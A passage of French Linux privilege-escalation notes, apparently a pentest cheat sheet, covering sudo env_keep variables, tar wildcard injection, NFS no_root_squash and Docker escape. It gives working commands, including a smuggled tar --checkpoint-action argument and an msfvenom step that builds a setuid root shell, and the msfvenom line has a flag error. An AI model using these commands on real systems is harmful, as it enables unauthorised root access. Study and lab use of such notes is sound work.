 `sudo -l` affiche la liste des variables d'environnements sur la première ligne.

*Pour que ce genre d'attaque fonctionne il faut qu'une des variables suivantes soit active et qu'au moins un programme soit exécutable en sudo.*

- `env_keep += LD_PRELOAD` est vulnérable car elle permet de charger des objets avant l'appel de certains programmes.
    https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/
- `env_keep += LD_LIBRARY_PATH` est vulnérable car elle fournit une liste de répertoires où les librairies sont chargées en premier.
    https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/

## 8) **Wildcard (*) exploitation**

Si une commande est exécutée avec `*` comme paramètre => exploitable.
Création de fichier correspondant aux paramètres de la commande exploitable.
Exemple : `tar [archive.tar.gz] *`
=\> `tar [archive.tar.gz] --checkpoint=1 --checkpoint-action=exec=shell.elf`

## 9) **Configurations particulières**

### 9.1) NFS (Network File System)

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

- Définition : Protocole qui permet à un ordinateur d'accéder à des fichiers sur une machine distante.
    Monter un NFS sur sa machine permet à d'autres utilisateurs d'accéder au FS (fichiers) de cette machine.
    Pour voir les informations d'un serveur nfs : `showmount -e [ip]`

Fichier de configuration NFS : `cat /etc/exports`.
Si dans le dossier indiqué on a l'option `no_root_squash`, cela signifie que la machine sur la quelle le repertoire est monté (kali) a les droits de root sur le répertoire.
Exemple avec `/tmp * (no_root_squash)` :

```
[On kali]
sudo su 
mkdir /tmp/nfs
mount -o rw,vers=2 [ip_machine_vulnérable]:/tmp /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -p /tmp/nfs/shell.elf 
chmod +xs /tmp/nfs/shell.elf
[On victim]
/tmp/shell.elf
```

### 9.2) **Escape from Docker**

- Docker container escape privesc : https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1

### 9.3) **John the Ripper : bruteforce de password**
